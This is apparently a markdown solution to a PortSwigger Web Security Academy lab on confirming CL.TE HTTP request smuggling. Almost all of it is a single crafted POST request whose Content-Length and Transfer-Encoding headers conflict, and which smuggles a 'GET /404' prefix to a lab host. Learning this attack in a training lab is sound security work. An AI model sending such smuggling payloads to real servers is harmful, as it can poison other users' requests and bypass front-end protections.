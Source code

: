 # Lab

https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

## Solution

```http
POST / HTTP/1.1
Host: 0a1f00d904a316dd83c4b6ee0059006b.web-security-academy.net
Cookie: session=fCvNtC26suROoYdr2mNpvQl9j4Jy0Rpj
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Transfer-Encoding: chunked
Connection: close

3
x=y
0

GET /404 HTTP/1.1
Foo: x
```